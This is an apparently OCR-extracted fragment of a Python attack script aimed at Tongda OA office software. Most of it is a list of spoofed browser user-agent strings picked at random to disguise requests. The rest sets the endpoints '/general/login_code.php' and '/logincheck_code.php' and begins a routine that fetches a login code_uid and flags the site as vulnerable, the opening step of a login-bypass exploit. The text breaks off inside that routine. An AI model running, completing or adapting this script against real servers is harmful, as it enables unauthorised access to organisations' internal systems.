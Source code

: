         "Mozilla/5.0 (X11; Linux i686; U;) Gecko/20070322 Kazehakase/0.4.5",
        "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.8) Gecko Fedora/1.9.0.8-1.fc10 Kazehakase/0.5.6",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.56 Safari/535.11",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_3) AppleWebKit/535.20 (KHTML, like Gecko) Chrome/19.0.1036.7 Safari/535.20",
        "Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.11 (KHTML, like Gecko) Chrome/20.0.1132.11 TaoBrowser/2.0 Safari/536.11",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.71 Safari/537.1 LBBROWSER",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; LBBROWSER)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E; LBBROWSER)",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.84 Safari/535.11 LBBROWSER",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; SV1; QQDownload 732; .NET4.0C; .NET4.0E; 360SE)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
        "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
        "Mozilla/5.0 (iPad; U; CPU OS 4_2_1 like Mac OS X; zh-cn) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8C148 Safari/6533.18.5",
        "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0b13pre) Gecko/20110307 Firefox/4.0b13pre",
        "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:16.0) Gecko/20100101 Firefox/16.0",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11",
        "Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10"
    ]
            self.payload_url_uid = '/general/login_code.php'
            self.payload_url_cookie = '/logincheck_code.php'
            self.headers= {'headers':random.choice(self.user_agent)}
            self.vulhub = False



        def get_tongda_uid(self):
            url =self.url+self.payload_url_uid
    
            r = requests.get(url=url,headers=self.headers,verify=False).text
            print('[*] Checking current URL UID' )
            uid_txt =r.split('code_uid')
            uid_compile = re.compile(r'"({.*})"')
            try:
                get_uid = re.findall(uid_compile,r)
                if len(get_uid) > 0:
                    print('【+】 Get current uid successfully',get_uid[0])
                    self.vulhub = True
                    return get_uid
                else:
                    print('[-] Failed to get current UID')
    